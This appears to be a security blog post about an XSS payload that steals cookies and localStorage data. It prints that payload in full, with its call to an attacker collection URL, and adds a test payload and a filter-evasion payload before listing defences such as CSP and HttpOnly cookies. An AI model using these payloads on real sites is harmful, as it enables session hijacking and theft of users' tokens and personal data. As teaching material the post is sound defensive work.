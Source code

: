 ```yaml
---
title: XSS Payload That Steals Both Cookies and Local Storage Data
date: 2025-06-06 19:49:08 +0530
categories: [Cybersecurity, XSS Payload]
tags: ['xss', 'web-security', 'payloads', 'hacking']
---
```


Cross-Site Scripting (XSS) attacks remain a pervasive threat to web application security, enabling client-side code injection and execution. This analysis dissects a potent XSS payload specifically engineered for the exfiltration of both HTTP cookies and `localStorage` data from compromised user sessions.

## ☣️ The Exfiltration Payload

```html
<svg/onload='const url = `https://weburl/collect?cookie=${encodeURIComponent(document.cookie)}&localStorage=${encodeURIComponent(JSON.stringify(localStorage))}`; fetch(url);'>
```

This inline SVG-based payload, when rendered by a vulnerable web page, initiates the following sequence of operations:

1.  **SVG Element Instantiation**: The `<svg>` tag is leveraged as an HTML element capable of executing inline JavaScript via event handlers.
2.  **`onload` Event Trigger**: The `onload` event handler is invoked immediately upon the SVG element's parsing and rendering within the DOM.
3.  **Malicious URL Construction**: A dynamic URL string is constructed, incorporating:
    * The attacker's controlled data collection endpoint: `https://weburl/collect`.
    * The victim's `document.cookie` string, URL-encoded (`encodeURIComponent`) to ensure safe transmission of special characters.
    * The victim's `localStorage` object, serialized to a JSON string (`JSON.stringify`) and then URL-encoded for transmission.
4.  **Asynchronous Data Transmission**: The `fetch(url)` API asynchronously transmits an HTTP GET request containing the constructed URL and its sensitive query parameters (exfiltrated cookies and `localStorage` data) to the attacker's server. This occurs without page reload, making the attack highly stealthy.

## 🚨 Consequences of Successful Exploitation

A successful XSS attack leveraging such a payload can lead to severe security breaches:

* **Session Hijacking**: The exfiltration of HTTP-only (if `HttpOnly` flag is absent) or non-`HttpOnly` cookies enables attackers to hijack active user sessions, bypass authentication mechanisms, and assume the victim's identity within the application.
* **Persistent Data Compromise**: The compromise of `localStorage` allows attackers to steal cached Personally Identifiable Information (PII), application-specific settings, API keys, or JWTs (if stored insecurely client-side), leading to privacy violations and potential further exploitation.
* **Privilege Escalation**: By impersonating privileged users, attackers can potentially escalate their access rights within the application.

## 🧪 Advanced XSS Techniques & Testing

* **Vulnerability Testing**: Developers should proactively test for XSS by injecting common payloads into all user-controlled input fields (e.g., email, search queries, comments). A basic test payload such as `test@gmail.com'%22%3E%3Csvg/onload=alert(/xss/)%3E` can reveal client-side execution.
* **WAF Evasion**: Adversaries continuously innovate techniques to bypass Web Application Firewalls (WAFs) and sanitize filters. Examples include character encoding, HTML entity obfuscation, tag attribute manipulation, and JavaScript context breaking. The provided location concatenation payload `"><BODy onbeforescriptexecute="x1='cookie';c=')';b='a';location='jav'+b+'script:con'+'fir\u006d('+'document'+'.'+x1+c">"` demonstrates a complex evasion strategy utilizing `onbeforescriptexecute` (a deprecated event handler) and character concatenation to reconstruct malicious JavaScript.

## 🔒 Robust Protection Measures

Mitigating XSS vulnerabilities requires a multi-layered defense strategy deeply integrated into the Software Development Life Cycle (SDLC):

* **Input Validation & Sanitization**: Implement rigorous **server-side** validation for all user-supplied input. This includes type checking, length constraints, and strict regex-based sanitization to filter out malicious characters and HTML tags.
* **Contextual Output Encoding**: All user-generated content rendered into HTML must be **contextually output-encoded**. This is critical: different HTML contexts (body, attribute, JavaScript, URL) require specific encoding schemes to neutralize executable code.
* **Content Security Policy (CSP)**: Deploy a strong and granular **Content Security Policy (CSP)** via HTTP response headers. CSP acts as a whitelist, restricting the sources from which scripts, styles, and other resources can be loaded and executed, significantly reducing the attack surface.
* **HttpOnly and Secure Flags for Cookies**: Mark sensitive cookies (especially session tokens) with the `HttpOnly` flag to prevent client-side JavaScript access. Utilize the `Secure` flag to ensure cookies are only transmitted over encrypted HTTPS connections.
* **Regular Security Testing**: Conduct routine automated and manual penetration testing (including DAST and SAST) to identify and remediate XSS vulnerabilities proactively. Promptly apply security patches and updates for all libraries and frameworks.
* **Secure Coding Practices**: Adhere to secure coding best practices and frameworks (e.g., OWASP ASVS) that inherently mitigate XSS risks by design. Avoid dynamically constructing HTML from untrusted input without proper escaping.

Stay vigilant and proactive in fortifying your web applications against XSS attacks. Proactive prevention and robust development practices are paramount.